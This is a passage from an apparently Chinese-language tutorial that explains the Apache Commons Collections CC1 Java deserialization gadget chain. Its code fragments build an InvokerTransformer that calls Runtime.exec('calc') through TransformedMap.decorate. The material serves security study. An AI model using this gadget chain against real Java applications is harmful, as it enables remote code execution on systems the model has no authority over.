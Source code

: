 ```java
    protected Object transformKey(Object object) {
        if (keyTransformer == null) {
            return object;
        }
        return keyTransformer.transform(object);
    }

    protected Object transformValue(Object object) {
        if (valueTransformer == null) {
            return object;
        }
        return valueTransformer.transform(object);
    }

    protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

（只有checkSetValue方法最后才能到readObject()）

接下来利用链就变成了，调用TransformedMap类的checkSetValue方法(当然我们要控制传值)。

TransformedMap的构造方法是protected类型，所以考虑decorate方法给TransformedMap赋值。

```java
    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

到这里利用链变为

```java
        Runtime runtime = Runtime.getRuntime();

        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        HashMap hashMap = new HashMap();
        TransformedMap transformedMap = (TransformedMap) TransformedMap.decorate(hashMap, null, invokerTransformer);
        //之后调用checkSetValue
```

但是，checkSetValue方法是protected类型，无法直接调用.

我们看这个方法的调用。TransformedMap继承的AbstractInputCheckedMapDecorator抽象类中setValue方法调用了checkValue方法。

setValue方法又是在MapEntry（AbstractInputCheckedMapDecorator的内部类）中，这个内部类是继承了AbstractMapEntryDecorator类，重写了AbstractMapEntryDecorator类的setValue方法。

AbstractMapEntryDecorator类又引入了了Map.Entry（Map的键值对）接口。在Map.Entry中setValue方法是给键值对的value赋值的。

![image-20240625153801181](https://s2.loli.net/2024/06/25/Lk2NKtaBo7FRySi.png)

到这最终我们是找到了Map.Entry的setValue方法，我们用Map进行键值对的遍历就能调用到setValue方法。
